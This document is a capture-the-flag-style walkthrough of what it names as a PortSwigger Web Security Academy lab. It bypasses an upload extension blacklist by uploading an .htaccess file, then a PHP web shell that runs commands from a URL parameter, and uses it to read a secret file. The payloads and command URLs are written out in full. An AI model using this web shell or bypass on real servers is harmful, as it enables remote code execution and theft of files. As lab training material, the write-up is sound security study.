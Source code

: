 

# Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

Hint: You need to upload two different files to solve this lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/file-upload

---------------------------------------------

New .htaccess file:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t
```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/1.png)
![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/2.png)



Upload Phpinfo file:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/3.png)
![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/4.png)


Upload cmdshell:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
```
```
https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/5.png)
![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/6.png)


Read the file:

```
https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
```

MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/7.png)

